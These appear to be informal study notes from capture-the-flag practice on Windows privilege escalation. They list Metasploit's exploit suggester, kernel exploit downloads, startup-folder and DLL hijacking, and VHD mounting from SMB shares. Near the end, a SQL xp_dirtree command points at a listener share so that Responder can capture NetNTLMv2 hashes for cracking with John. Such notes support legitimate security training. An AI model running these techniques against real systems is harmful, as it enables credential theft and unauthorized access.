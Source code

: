 
msf
run post/multi/recon/local_exploit_suggester
also .py file

windows-kernel-exploits google, site to dl compiled ones

findstr in registry

plink.exe putty - can port forward , 32 & 64 bit
upload to the machine for privesc

shift+right click and select cmd


tokens list -u

cmdkey /list

autorun64.exe to find autorun files

thm windows privesc arena

`icacls.exe \\ ... \programs\startup`
when admin user logs in it's run as them!

dll hijacking
ex c code at 2:54

reason to migrate in msfc - limited shell


vhd file - do guest mount on kali, don't dl, see link
mount -t cifs -o "rw,username=guest" //ip/path/Backups backups
guestmount -a "linux path to file.vhd" /dev/sda1 --ro /root/bastion
4.20

on a machine or on an image or zip with lots of files - finding files installed/added later by searching on date

binwalk on xlsm and other xml files


add list of all sysinternals tools to notes with reescription

responder or smbserver to grab hashes
in sql exec xp_dirtree '///ip/share...'
run john with format=netntlmv2

gpt passwords vulnerability






